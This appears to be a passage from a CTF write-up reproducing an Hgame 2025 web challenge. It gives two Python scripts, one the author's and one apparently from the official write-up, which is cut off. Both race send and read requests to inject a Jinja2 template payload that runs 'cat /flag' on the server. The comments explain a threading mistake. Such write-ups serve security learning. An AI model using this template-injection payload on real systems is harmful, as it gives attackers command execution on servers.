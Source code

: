 ```python
import threading
import requests

def send_():
    data={"message": "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}"}
    res=requests.post("http://node1.hgame.vidar.club:30668/app/send",data=data)
def read_():
    res=requests.get("http://node1.hgame.vidar.club:30668/app/read")
    print(res.text)
threads=[]
for i in range(15):
    thread1=threading.Thread(target=send_)
    thread2=threading.Thread(target=read_)
    #这里当时遇到了一个问题，我写的是target=send_()那么实际为立即执行，两个函数为顺序执行，无法实现条件竞争
    #正确的应该是target=send_，多线程完成请求
    threads.append(thread1)
    threads.append(thread2)
    thread1.start()
    thread2.start()
for t in threads:
    t.join()
```

![](/img/Hgame2025复现/ACwSbqbhdoseXcxAGdTc8fsOnyh.png)

官方 WP 所给脚本

```python
import requests 
import threading 
url = 'http://node1.hgame.vidar.club:32737/' 
data = { 
    "messgae": "", 
    } 
def write_msg(i): 
    data["message"] = "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}"+str(i) 
    r = requests.post(url + '/app/send', data=data) 
def read_msg(i): 
    r = requests.get(url + '/app/read') 
```
